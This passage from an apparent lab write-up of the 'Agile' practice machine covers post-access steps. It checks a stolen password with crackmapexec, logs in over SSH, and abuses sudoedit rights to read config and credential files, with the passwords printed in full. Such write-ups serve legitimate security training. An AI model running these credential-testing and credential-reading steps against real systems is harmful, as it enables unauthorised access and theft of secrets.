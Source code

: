 ![agile-image.png]({{ site.baseurl }}/assets/agile/agile-image-7.png)

Now click on inspect to see. Click on Vault and we can see the password. We can either copy the cookies so we can obtain the session as log on as dev or simply copy the password from here

![agile-image.png]({{ site.baseurl }}/assets/agile/agile-image-8.png)

![agile-image.png]({{ site.baseurl }}/assets/agile/agile-image-9.png)

We can verify if the password works with cme:

```bash
cme ssh 10.129.228.212 -u edwards -p d07867c6267dcb5df0af

#It's correct.
```

Let’s ssh to edwards.

```bash
ssh edwards@10.129.228.212
```

Checking our sudo privileges:

```bash
sudo -l

result:
User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

Let’s look at both files.

```bash
sudo -u dev_admin sudoedit /app/config_test.json

result:
{
    "SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
}

#Mysql database for the runnning website, since we already have edwards password it's not that useful. We check the database and find nothing new. The other file:

sudo -u dev_admin sudoedit /app/app-testing/tests/functional/creds.txt

result:
edwards:1d7ffjwrx#$d6qn!9nndqgde4
```

We try whether that’s the root’s password but it’s not. We can run sudoedit as user dev_admin so let’s see what files dev_admin owns (group and user):

```bash
find / -user dev_admin 2>/dev/null

result:
/home/dev_admin
/app/app-testing/tests/functional/creds.txt
/app/config_test.json
/app/config_prod.json

#Nothing interesting

find / -group dev_admin 2>/dev/null

```